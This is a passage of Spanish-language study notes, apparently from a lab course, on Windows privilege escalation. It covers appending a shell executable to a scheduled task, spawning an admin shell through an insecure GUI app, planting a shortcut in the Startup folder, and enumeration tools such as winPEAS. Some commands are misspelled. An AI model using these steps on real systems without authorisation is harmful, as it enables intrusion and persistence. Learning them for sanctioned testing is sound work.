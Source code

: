 - Añadimos al scirpt la ejecución de una shell a nuestra maquina host 
-> echo C:\PrivEsc\shell.exe >> TAREA 




## Insecures GUI Apps
- En las versiones antiguas del windows, el usuario podía estar asignados con los permisos de correr certos GUI apps con los privilegios de un administrador, por lo que se podía ser aprovechada para spawnear shells.

```
> tasklist /v | findstr mspaint.exe...

- En la barra de busqueda 
	> file://c:/windows/system32/cmd.exe
```

> Con esto nos hemos podido aprovecharnos de la barra de busqueda en spawnear una shell admin

## Startup Apps

- Cada usuario puede definer los apps que quieren que se ejecuten al iniciar el ordenador el directorio para ver donde se almacena todo estos datos es en C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
- Si podemos tener los permisos de escritura en este directorio podemos meter una shell en ese directorio para cuando se ejecuta cuando el ordenador es encendido

> Es necesario crear un shortcut en esa carpeta en el cuál tenemos que indicar la ejecución de nuestra shell

```
> accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

> csscript SHORTCUT.vbs

```


## Apps Exploits

- Enumerar todo los programas, usa exploitdb para veer si una app tiene un epxloit de escalada de privilegio

```

> taskslist -v

> seatbelt.exe NonstandardProcesses

> winPEASS quiet procesinfo

```


## Hot Potato
